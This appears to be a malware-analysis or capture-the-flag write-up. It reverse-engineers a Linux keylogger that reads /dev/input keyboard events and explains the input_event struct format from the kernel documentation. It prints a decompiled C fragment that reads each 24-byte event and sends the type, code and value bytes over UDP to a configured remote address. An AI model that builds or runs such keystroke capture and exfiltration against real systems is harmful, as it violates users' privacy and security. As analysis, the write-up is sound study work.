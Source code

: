 we should get some docs about this type of file I found this [blog](https://thehackerdiary.wordpress.com/2017/04/21/exploring-devinput-1/) that I highly recommand to read 
from the blog we concluded that it is file that reads input for any input device in our case the keyboard So the malware is keylogger
From the blog:
>The format for the input stream is given in the [Linux documentation](https://www.kernel.org/doc/Documentation/input/input.txt) as follows:
```
struct input_event {
	struct timeval time;
	unsigned short type;
	unsigned short code;
	unsigned int value;
};
```
struct timeval – 16
unsigned short – 2 ( x 2 )
unsigned int – 4
**Total size** = 24 bytes

We back to the binary after reading the file and setting the ip address and the port we have this 
```c
sVar2 = read(local_20,local_48,24);
for (i = 16; i < 22; i = i + 1) {
			local_c9 = local_48[i];
			sVar2 = sendto(local_24,&local_c9,1,0,&local_58,16);
			if (sVar2 < 0) {
				perror("Error sending data");
				exit(1);
			}
		}
```
we see that it reads 24 byte (means an event) then send just 17th-22th byte 
```
|     16 Byte     |     2 byte     |     2 byte     |     4 byte     |
|      time       |      type      |      code      |      value     |
```
so we are sending the `type` and `code` and `value`  but what are these ? 
The [Linux Documentation](https://www.kernel.org/doc/Documentation/input/input.txt) will answer this question 
```
'time' is the timestamp, it returns the time at which the event happened.

'type' is for example EV_REL for relative moment, EV_KEY for a keypress or
release. More types are defined in include/uapi/linux/input-event-codes.h.

'code' is event code, for example REL_X or KEY_BACKSPACE, again a complete
list is in include/uapi/linux/input-event-codes.h.

'value' is the value the event carries. Either a relative change for
EV_REL, absolute new value for EV_ABS (joysticks ...), or 0 for EV_KEY for
release, 1 for keypress and 2 for autorepeat.
```
